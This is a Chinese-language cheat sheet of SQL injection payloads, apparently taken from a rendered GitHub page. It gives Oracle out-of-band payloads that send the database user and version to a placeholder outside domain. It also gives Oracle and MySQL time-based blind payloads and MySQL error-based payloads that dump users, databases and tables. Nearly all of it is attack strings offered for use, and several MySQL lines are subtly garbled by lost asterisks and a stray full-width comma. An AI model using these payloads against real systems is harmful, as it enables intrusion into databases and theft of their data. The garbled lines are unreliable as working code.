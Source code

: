 #### oracle带外注入

- 获取当前数据库用户
```
' and (select utl_inaddr.get_host_address((select user from dual)||'.xxx.xxx') from dual) is not null--+
```
- 获取版本信息
```
' and 1=utl_http.request('.xxx.xxxx'||(select banner from sys.v_$version where rownum=1))--+
' and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.xxxx.xxxx') from dual) is not null--+
```

#### oracle时间盲注

- 获取当前用户
```
' and 1=(DBMS_PIPE.RECEIVE_MESSAGE('a',10))--+
' AND 7238=(CASE WHEN (ASCII(SUBSTRC((SELECT NVL(CAST(USER AS VARCHAR(4000)),CHR(32)) FROM DUAL),1,1))>96) THEN DBMS_PIPE.RECEIVE_MESSAGE(CHR(71)||CHR(106)||CHR(72)||CHR(73),1) ELSE 7238 END)
'/**/and/**/(select/**/decode(length(user),4,DBMS_PIPE.RECEIVE_MESSAGE('a',10),0)from/**/dual)='t
```

### mysql注入

#### mysql报错注入

- 获取当前数据库用户
```
1' and extractvalue(1,concat(0x7e,(select user()),0x7e))--+
1' and updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
1' and (select count(*) from information_schema.tables group by concat(select user(),0x7e，floor(rand(0)*2)))--+
1' or+1+group+by+concat_ws(0x7e,user(),floor(rand(0)*2))+having+min(0)+or+1
' and (select 1 from (select count(*),concat((select user()),floor(rand()*2))a from information_schema.columns group by a)b)limit 0,1--+
```
- 获取当前所有数据库
```
1' and (select 1 from(select count(),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)

```
- 获取当前所有表
```
1' and (select 1 from(select count(),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)

```
#### mysql时间盲注

- 获取database长度
```
'and(select*from(select+if(length(database())=6,sleep(5),1))a/**/union/**/select+1)='a
'and(select*from(select+if(substr(database(),1,6)='master',sleep(5),1))a/**/union/**/select+1)='a

```
